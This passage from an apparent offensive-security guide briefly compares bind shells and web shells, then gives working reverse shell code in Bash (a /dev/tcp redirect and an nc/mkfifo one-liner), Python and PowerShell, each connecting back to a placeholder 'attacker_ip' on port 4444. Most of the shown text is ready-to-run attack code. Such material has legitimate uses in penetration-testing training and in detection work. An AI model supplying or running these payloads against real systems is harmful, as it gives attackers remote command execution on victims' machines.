 **Disadvantages**:
- Blocked by inbound firewalls
- Easily detected by port scans
- Visible network service

### Web Shell

**Description**: Web-based interface accepting commands via HTTP parameters.

**Advantages**:
- Blends with legitimate web traffic
- Works through firewalls/proxies
- Persistent across system reboots

**Disadvantages**:
- Limited functionality
- Requires web server access
- Logged in web server logs

## Shell Implementation Examples

### Reverse Shell Implementations

#### Bash Reverse Shell

```bash
# Basic bash reverse shell
bash -i >& /dev/tcp/attacker_ip/4444 0>&1

# Alternative method
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 4444 > /tmp/f
```

#### Python Reverse Shell

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("attacker_ip",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

#### PowerShell Reverse Shell

```powershell
# PowerShell reverse shell
$client = New-Object System.Net.Sockets.TCPClient("attacker_ip",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
```
